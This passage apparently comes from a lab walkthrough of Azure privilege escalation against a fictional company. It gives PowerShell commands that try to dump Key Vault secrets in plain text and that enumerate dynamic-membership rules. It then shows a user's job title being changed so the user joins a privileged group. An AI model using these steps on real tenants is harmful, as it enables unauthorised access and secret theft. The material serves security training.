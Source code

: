 If we try to get the secrets, we receive an error `Operation returned an invalid status code 'Forbidden'`. It seems that we don't have permissions to view secret values. Interestingly we see the secret name `algo-github-deploy-key` 
```
└─PS> $secrets = Get-AzKeyVaultSecret -VaultName "Engineering-Vault1"
```
```
foreach ($secret in $secrets) {
    Write-Output "Secret Name: $($secret.Name)"
    $secretValue = Get-AzKeyVaultSecret -VaultName "Engineering-Vault1" -Name $secret.Name
    $secretValueText = $secretValue.SecretValue | ConvertFrom-SecureString -AsPlainText
    Write-Output "Secret Value: $secretValueText"
    Write-Output "Content Type: $($secretValue.ContentType)"
}
```

Let's check if dynamic membership rules configured
```
└─PS> $dynamicGroups = Get-MgGroup -Filter "groupTypes/any(c:c eq 'DynamicMembership')"
```
```
foreach ($group in $dynamicGroups) {
    $groupName = $group.DisplayName
    $membershipQuery = $group.MembershipRule
    Write-Output "Group Name: $groupName, Membership Query: $membershipQuery"
}
```
```
└─PS> foreach ($group in $dynamicGroups) {
<SNIP>
Group Name: SERVER-BACKUPS, Membership Query: (user.userPrincipalName -contains "admin")
Group Name: ALGO-ACCESS, Membership Query: (user.jobTitle -eq "Algorithm Administrator")

```

We see the group `ALGO-ACCESS`. Users with the job title `Algorithm Administrator` are dynamically made members of this group. We can update the job title for Felix Schneider to `Algorithm Administrator`, and see what resources Felix is now able to access. The command should be run from Angelina's context
```
└─PS> Update-MgUser -UserId (Get-MgUser -Filter "userPrincipalName eq 'Felix.Schneider@megabigtech.com'").Id -jobTitle "Algorithm Administrator"                                                                                            


```

Now reconnect as Felix and confirm that he's a member of `ALGO-ACCESS` 
```
└─PS> Get-MgGroupMember -GroupId (Get-MgGroup -Filter "displayName eq 'ALGO-ACCESS'").Id | fl

DeletedDateTime      : 
Id                   : f5597fb4-82b3-4b25-9dfb-761a25f36f67
AdditionalProperties : {[@odata.type, #microsoft.graph.user], [businessPhones, System.Object[]], [displayName, Felix Schneider], [givenName, Felix]…}

DeletedDateTime      : 
Id                   : 97d65cdf-a518-48d5-838a-9af92a041115
AdditionalProperties : {[@odata.type, #microsoft.graph.user], [businessPhones, System.Object[]], [displayName, Guy Tremblay], [jobTitle, Algorithm Administrator]…}
```
